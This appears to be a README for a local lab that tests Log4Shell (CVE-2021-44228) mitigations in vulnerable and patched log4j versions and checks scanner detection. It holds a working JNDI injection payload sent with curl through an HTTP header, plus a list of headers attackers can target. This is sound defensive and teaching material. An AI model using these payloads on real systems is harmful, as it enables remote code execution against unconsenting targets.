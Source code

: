 # About

A playground for poking at the [critical log4j (aka Log4Shell) (CVE-2021-44228) vulnerability](https://en.wikipedia.org/wiki/Log4Shell) mitigations.

This particular problem lies within the [JndiLookup feature](https://logging.apache.org/log4j/2.x/manual/lookups.html#JndiLookup) and the log4j ability to interpret **ALL** the arguments of a logging call.

I would expect it to only interpret the format message (the first argument of a logging call), e.g., the `Hello {}` in `log.info("Hello {}", "${jndi:ldap://127.0.0.1:8081}")`, but it interprests all of them.

The mitigations will prevent log4j from triggering the `jndi` lookups, but they still allow other lookups like `${java:version}`.

**NB: Since log4j [2.16.0](https://logging.apache.org/log4j/2.x/changes-report.html#a2.16.0) ([LOG4J2-3211](https://issues.apache.org/jira/browse/LOG4J2-3211); [diff](https://github.com/apache/logging-log4j2/compare/rel/2.15.0...rel/2.16.0)) the format message is no longer interpreted.**

This vulnerability can be triggered remotely when the target application logs any user supplied data, for example, from these common HTTP headers:

* `Accept`
* `Cookie`
* `Location`
* `Origin`
* `Referer`
* `User-Agent`
* `X-Api-Version`
* `X-Forwarded-For`
* `X-Forwarded-Host`
* `X-Requested-With`

# Play (Ubuntu 20.04)

Build:

```bash
sudo apt-get install -y openjdk-11-jdk-headless
wget https://archive.apache.org/dist/logging/log4j/2.10.0/apache-log4j-2.10.0-bin.tar.gz
wget https://archive.apache.org/dist/logging/log4j/2.16.0/apache-log4j-2.16.0-bin.tar.gz
tar xf apache-log4j-2.10.0-bin.tar.gz
tar xf apache-log4j-2.16.0-bin.tar.gz
javac -Werror -cp apache-log4j-2.10.0-bin/log4j-api-2.10.0.jar Server.java
```

Try a vulnerable log4j version:

```bash
java \
    -cp apache-log4j-2.10.0-bin/log4j-api-2.10.0.jar:apache-log4j-2.10.0-bin/log4j-core-2.10.0.jar:. \
    Server
curl -H 'X-Api-Version:${jndi:ldap://127.0.0.1:8081}' http://localhost:8080
curl -H 'X-Api-Version:${java:version}' http://localhost:8080
```

Try removing the `JndiLookup` class from the classpath mitigation:

```bash
cp apache-log4j-2.10.0-bin/log4j-core-2.10.0.jar log4j-core-2.10.0-without-jndi-lookup.jar
zip -q -d log4j-core-2.10.0-without-jndi-lookup.jar org/apache/logging/log4j/core/lookup/JndiLookup.class
java \
    -cp apache-log4j-2.10.0-bin/log4j-api-2.10.0.jar:log4j-core-2.10.0-without-jndi-lookup.jar:. \
    Server
curl -H 'X-Api-Version:${jndi:ldap://127.0.0.1:8081}' http://localhost:8080
curl -H 'X-Api-Version:${java:version}' http://localhost:8080
```

Try the environment variable mitigation:

**NB** Since 2021-12-15 (circa log4j 2.16.0 / CVE-2021-45046 release date) this is no longer recommended.

```bash
LOG4J_FORMAT_MSG_NO_LOOKUPS=true \
    java \
    -cp apache-log4j-2.10.0-bin/log4j-api-2.10.0.jar:apache-log4j-2.10.0-bin/log4j-core-2.10.0.jar:. \
    Server
curl -H 'X-Api-Version:${jndi:ldap://127.0.0.1:8081}' http://localhost:8080
curl -H 'X-Api-Version:${java:version}' http://localhost:8080
```

Try a non-vulnerable log4j version:

```bash
java \
    -cp apache-log4j-2.16.0-bin/log4j-api-2.16.0.jar:apache-log4j-2.16.0-bin/log4j-core-2.16.0.jar:. \
    Server
curl -H 'X-Api-Version:${jndi:ldap://127.0.0.1:8081}' http://localhost:8080
curl -H 'X-Api-Version:${java:version}' http://localhost:8080
```

Try [grype](https://github.com/anchore/grype) to see whether it detects the vulnerability:

```bash
wget https://github.com/anchore/grype/releases/download/v0.27.2/grype_0.27.2_linux_amd64.tar.gz
tar xf grype_0.27.2_linux_amd64.tar.gz grype
./grype dir:.
```

Try [trivy](https://github.com/aquasecurity/trivy) to see whether it detects the vulnerability:

```bash
wget https://github.com/aquasecurity/trivy/releases/download/v0.21.2/trivy_0.21.2_Linux-64bit.tar.gz
tar xf trivy_0.21.2_Linux-64bit.tar.gz trivy
./trivy fs --security-checks vuln .
```

# References

* https://www.lunasec.io/docs/blog/log4j-zero-day-mitigation-guide/
* https://blog.cloudflare.com/inside-the-log4j2-vulnerability-cve-2021-44228/
* https://logging.apache.org/log4j/2.x/security.html
* https://logging.apache.org/log4j/2.x/manual/lookups.html#JndiLookup
